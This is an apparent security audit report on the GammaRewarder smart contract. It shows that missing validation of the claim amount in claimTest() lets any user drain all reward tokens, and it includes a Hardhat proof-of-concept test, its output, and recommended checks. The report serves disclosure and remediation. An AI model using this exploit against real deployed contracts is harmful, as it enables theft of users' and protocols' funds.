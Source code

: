 Glorious Fossilized Cuckoo

High

# Attacker Can Drain the GammaRewarder Contract due to Unchecked Reward Claims

# Attacker Can Drain the `GammaRewarder` Contract due to Unchecked Reward Claims

## Lines of Code Affected

https://github.com/sherlock-audit/2024-10-gamma-rewarder/blob/475f7fbd0f7c2717ed585a67632e9a675b51c306/GammaRewarder/contracts/GammaRewarder.sol#L150
https://github.com/sherlock-audit/2024-10-gamma-rewarder/blob/475f7fbd0f7c2717ed585a67632e9a675b51c306/GammaRewarder/contracts/GammaRewarder.sol#L179

### Summary

The `GammaRewarder.sol` contract contains a critical vulnerability in its reward claiming mechanism. Missing input validation in the `claimTest()` function allows malicious users to claim arbitrary amounts of reward tokens, regardless of their actual entitlement. This vulnerability affects all ERC20 reward tokens managed by the protocol.

### Vulnerability Detail

Note: This vulnerability exists in both the internal `handleProofResult()` function and its testing counterpart `claimTest()`. For demonstration purposes, we focus on `claimTest()` as it provides direct external access to the vulnerable functionality.

The vulnerability stems from insufficient validation of the `_appCircuitOutput` parameter in the `claimTest()` function. When decoded, this parameter provides several critical values:

```solidity
(
    address userAddress,      // Address that will receive the rewards
    address lpTokenAddress,   // Address of the LP token
    uint64 startBlock,
    uint64 endBlock,
    bytes32 distributionId,
    address rewardTokenAddress,
    uint248 distributionAmountPerEpoch,
    uint248 totalRewardAmount // Amount of tokens to be claimed
) = decodeOutput(_appCircuitOutput);
```

The key issue lies in how these parameters are used within the `claimTest()` function:

Where we can see that a user can pass parameters to receive rewards. So if we put our attention on `address userAddress`, `address lpTokenAddress` and `uint248 totalRewardAmount`, are the parameters that are being used to actually send tokens on the function by calling `safeTransfer()`.

```solidity
function claimTest(bytes32, bytes32 _vkHash, bytes calldata _appCircuitOutput) external {
    require(vkHashes[_vkHash], "invalid vk");

    (
        address userAddress,
        address lpTokenAddress,
        uint64 startBlock,
        uint64 endBlock,
        bytes32 distributionId,
        address rewardTokenAddress,
        uint248 distributionAmountPerEpoch,
        uint248 totalRewardAmount
    ) = decodeOutput(_appCircuitOutput);

    DistributionParameters memory params = distributions[distributionId];
    require(startBlock < endBlock && (endBlock - startBlock) % blocksPerEpoch == 0, "Claim period must be valid");
    require(startBlock >= params.startBlockNumber && endBlock <= params.endBlockNumber, "Claim range has to include distribution range.");
    require(lpTokenAddress == params.hypervisor && rewardTokenAddress == params.rewardToken && distributionAmountPerEpoch == params.distributionAmountPerEpoch, "Distribution params must match");
    require(totalRewardAmount > 0, "Rewards do not exist for you.");

    // Closing reentrancy gate here
    CumulativeClaim memory claim = claimed[userAddress][rewardTokenAddress][distributionId];
    require(claim.amount == 0 , "Already claimed reward.");

    claim.startBlock = startBlock;
    claim.endBlock = endBlock;
    claim.amount = totalRewardAmount;
    claimed[userAddress][rewardTokenAddress][distributionId] = claim;

    // Critical: No validation of totalRewardAmount against legitimate claim amount
    IERC20(rewardTokenAddress).safeTransfer(userAddress, totalRewardAmount);
    emit Claimed(userAddress, distributionId, rewardTokenAddress, startBlock, endBlock, totalRewardAmount);
}
```

When `safeTransfer()` call is made and there's no check for `totalRewardAmount`, so a user can pass the full contract balance and transfer for himself.

### Impact

Any user can drain all reward tokens from the protocol by:

1. Passing their own address as `userAddress`
2. Setting `totalRewardAmount` to the contract's entire balance
3. Providing valid parameters for other checks

### Proof of Concept

Instructions for reproducing the issue:

1. Go to `test/Audit.ts` and replace the test called `"Create distribution"::L105` with the code below.

```solidity
it("PoC - Drain GammaRewarder Contract", async function () {
  // ============ SETUP ============
  // Retrieve the reward token address
  const rewardTokenAddress = await rewardToken.getAddress();

  // Mint reward tokens to incentivizer (users[1])
  await rewardToken.mint(users[1], 10000000000000000000000n);

  // Approve reward tokens to GammaReward contract
  await rewardToken
    .connect(users[1])
    .approve(rewardContract.getAddress(), 10000000000000000000000n);

  // Add reward token to whitelist
  await rewardContract.toggleTokenWhitelist(rewardTokenAddress);

  // Create distribution
  await rewardContract
    .connect(users[1])
    .createDistribution(
      hypervisor_address,
      rewardTokenAddress,
      distribution_amount,
      start_block_num,
      end_block_num
    );

  const distributionId = await rewardContract.getDistributionId(0);
  const amountPerEpoch = 4850000000000000000000n;

  // Add verification key hash
  await rewardContract.addVkHash(VK_HASH);

  // Record initial balances
  const contractBalanceBefore = await rewardToken.balanceOf(
    rewardContract.getAddress()
  );
  console.log("BEFORE: Reward Contract Balance:", contractBalanceBefore);

  // ============ ATTACK ============
  const attacker = users[8];
  const attackerBalanceBefore = await rewardToken.balanceOf(
    attacker.getAddress()
  );
  console.log("BEFORE: Attacker Balance:", attackerBalanceBefore);

  // Prepare malicious claim
  const circuitOutput = _getCircuitOutput(
    await attacker.getAddress(), // userAddress
    hypervisor_address, // lpTokenAddress
    0, // startBlock
    start_block_num, // endBlock
    end_block_num,
    distributionId,
    rewardTokenAddress,
    amountPerEpoch,
    await rewardToken.balanceOf(rewardContract.getAddress()) // Claim entire balance
  );

  // Execute attack
  await rewardContract
    .connect(attacker)
    .claimTest(ethers.encodeBytes32String("string"), VK_HASH, circuitOutput);

  // ============ VERIFICATION ============
  const contractBalanceAfter = await rewardToken.balanceOf(
    rewardContract.getAddress()
  );
  const attackerBalanceAfter = await rewardToken.balanceOf(
    attacker.getAddress()
  );

  console.log("AFTER: Reward Contract Balance:", contractBalanceAfter);
  console.log("AFTER: Attacker Balance:", attackerBalanceAfter);

  // Verify attack success
  expect(attackerBalanceAfter).to.equal(contractBalanceBefore);
});
```

2. An output will be displayed and also a test confirmation for the assertion.

```solidity
✔ PoC - Drain GammaRewarder Contract
```

```solidity
Output:

BEFORE: Reward Contract Balance: 9700000000000000000000n
BEFORE: Attacker Balance: 0n
AFTER: Reward Contract Balance: 0n
AFTER: Attacker Balance: 9700000000000000000000n
```

### Tool used

Manual Review

### Recommendation

1. Implement validation checks for reward claim amounts:

```solidity
// Add this check in claimTest()
require(
    totalRewardAmount <= distributionAmountPerEpoch,
    "Claim amount exceeds maximum allowed per epoch"
);
```

2. Consider implementing additional safeguards:
   - Track and validate cumulative claims against total distribution amount
   - Add checks for user eligibility based on LP token holdings
   - Implement a maximum claim amount per user per distribution
